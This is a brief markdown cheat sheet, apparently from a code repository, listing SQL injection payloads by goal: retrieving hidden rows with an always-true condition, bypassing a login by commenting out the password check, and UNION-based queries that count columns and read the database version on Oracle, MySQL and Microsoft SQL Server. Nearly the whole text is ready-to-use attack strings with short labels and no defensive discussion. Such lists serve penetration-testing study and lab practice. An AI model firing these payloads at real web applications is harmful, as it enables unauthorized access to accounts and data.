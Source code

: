 # SQL Injection Payloads

**Retreive Hidden Data**
```SQL
'+OR+1=1--
```
---
**Login bypass**
  - Modify the user or username parameter
```SQL
administrator'--
```
---
**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```SQL
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
**MySQL and Microsoft database type and version information**
- Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'#
```
  - Display the database version information
```SQL
'+UNION+SELECT+@@version,+NULL#
```
---
